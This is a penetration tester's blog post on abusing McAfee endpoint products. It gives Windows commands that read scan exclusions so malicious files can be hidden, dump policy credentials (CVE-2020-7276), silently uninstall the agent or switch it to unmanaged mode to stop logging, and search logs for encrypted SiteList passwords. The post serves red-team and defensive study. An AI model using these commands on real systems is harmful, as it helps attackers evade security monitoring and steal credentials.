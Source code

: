 ```yaml
---
title: Abusing McAfee Vulnerabilities and Misconfigurations 
date: "2021-01-17"
featuredImage: './mcafee-logo.png'
---
```


Unpatched or misconfigured McAfee components will make life much easier during a penetration test or red team assessment<!-- end -->. 

While conducting a penetration test I happen to run into McAfee and wanted to see if there are any articles on bypassing or abusing McAfee. I started doing some research and unfortunately I was unable to find any well documented modern techniques on doing so. I decided to write this article to mention a few methods that I discovered during my assessment which I found very useful.

# McAfee Products

Before I start I want to briefly go over how McAfee works for anyone who hasn't encountered it before. McAfee has various independent products/components that can be purchased by enterprises. Enterprises will purchase different products depending on their needs. Some of Mcafee's products you may encounter are:

* McAfee Endpoint Security (ENS)
* McAfee Host Intrusion Prevention (HIP)
* McAfee EndPoint Security Web Control
* McAfee VirusScan Enterprise

The full list of McAfee products is available <a href="https://www.mcafee.com/enterprise/en-ca/products/a-z.html">here</a>. 

# Method 1 - ENS Folder & File Exclusions

## On-Access Scan Exclusions

On-Access Scan (OAS) is the process of scanning files as they are accessed by users on the system. If you place your malicious file in an excluded folder then you can execute it without worrying about ENS scanning your file. You can also abuse file exclusions by simply renaming your malicious file to the excluded file name.

Query the following registry keys and check the file & folder names under the 'exclusions' value.

    #OAS Exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_DEFAULT /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_HIGH /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_LOW /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_DEFAULT /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_HIGH /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_LOW /v exclusions

    #Email attachment OAS Exclusions:
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_EMAIL_ATTACHMENTS /v exclusions


If for some reason you weren't able to find anything, the exclusions list is available in the following paths:

    C:\ProgramData\McAfee\Endpoint Security\McAfeeSettingsBackup\*.xml
    C:\ProgramData\McAfee\Endpoint Security\McAfeeSettingsBackup\*.reg


## On-Demand Scan Exclusions

The aforementioned technique only covers OAS and therefore if the machine is scanned with an On-Demand Scan (ODS) then your files may be detected and deleted. If you want the exclusions list for ODS check the following registry key.

    
    reg query HKLM\SOFTWARE\McAfee\AVSolution\ODS\541* /v exclusions

\* 541 may be a different number on your target machine

# Method 2 - ENS Disabled AMSI

By default, AMSI is set to <a href="https://www.mcafee.com/blogs/other-blogs/mcafee-labs/mcafee-amsi-integration-protects-against-malicious-scripts/">observe mode</a> which means if the invoked PowerShell commands or scripts are detected as being malicious, they won't be blocked. If AMSI is set to observe mode then we can stick to running our tools in memory. Note that malicious commands and scripts are still logged in observe mode.

![AMSI-Bypass](./AMSI_bypass.png)

# Method 3 - Dump Policy Settings (CVE-2020-7276)

I ran into this completely by accident and after searching online I realized this is probably <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7276">CVE-2020-7276</a>. If you have administrator privileges you can dump policy settings which contain sensitive information such as server names, IPs, share paths, usernames, and passwords.

    cd "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\Upgrade"
    MfeUpgradeTool.exe /export out.txt /plaintext

![MfeUpgradeTool](./mfeupgradetool.png)

# Method 4 - Uninstalling McAfee Products

If you have Administrator privileges you can try to avoid McAfee products by uninstalling them. Every McAfee component has its own registry key with an <i>Uninstall Command</i> value. The components' registry keys can be found under the following parent key:

    reg query "HKLM\SOFTWARE\WOW6432Node\Network Associates\ePolicy Orchestrator\Application Plugins"
    Or
    reg query "HKLM\Software\Wow6432Node\McAfee\ePolicy Orchestrator\Application Plugins"

![Uninstall](./uninstall_plugins.png)

## McAfee Agent

The McAfee Agent is responsible for various tasks, one of which is sending security logs to the centralized security management server known as ePO. To prevent the agent from sending logs to the server you can uninstall it. If tamper protection is enabled then this will fail, in that case you can try to switch the agent to 'unmanaged mode' which will also stop the agent from sending logs.

    #Remove Agent
    cd c:\Program Files\McAfee\Agent\x86
    FrmInst.exe /FORCEUNINSTALL /SILENT

    #Switch to unmanaged mode
    cd c:\Program Files\McAfee\Agent\x86
    FrmInst.exe /remove=agent /SILENT

# Method 5 - Passwords Inside Log files

I've seen SiteList.xml's data laying around in log files before so here's what you want to try:

    #Search for SiteList.xml
    cd C:\Users\mrd0x\AppData
    dir /s sitelist.xml

    #McAfee's log folder
    cd C:\Users\mrd0x\AppData\Local\Temp\McAfeeLogs
    findstr /i password * > enum.txt

The passwords are encrypted but can be easily decrypted using <a href="https://github.com/funoverip/mcafee-sitelist-pwd-decryption">this tool</a>.

![McAfee-Logs](./mcafee_logs.png)

# Final Remarks

Next time you run into McAfee you'll have a few more things on your checklist to try. If there are any additional methods I should add to this list please reach out to me on Twitter (@mrd0x).